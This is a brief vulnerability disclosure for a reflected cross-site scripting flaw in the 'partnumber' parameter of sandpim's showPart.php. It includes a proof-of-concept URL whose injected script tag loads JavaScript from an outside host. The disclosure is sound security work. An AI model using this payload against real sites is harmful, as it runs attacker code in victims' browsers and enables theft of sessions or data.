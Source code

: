**Vendor**: autopartsource

**Product**: sandpim

**Version**: 3.7

**Affected component**: Parameter "partnumber"

**Description**:  A reflected cross-site scripting (XSS) vulnerability in sandpim versions before 3.7 enables remote attackers to inject and execute malicious JavaScript code (limited to 20 characters) in users' web browsers by exploiting the partnumber parameter in showPart.php.

---
**PoC**:

Payload:
```
http://<url>/showPart.php?partnumber=<script+src%3D%2F%2F2c.io>&submit=Go
```

The result, it will GET the link: 2c.io (this link is sample, the attacker can design with 5 characters to exploit).

![imgXSS](image.png)
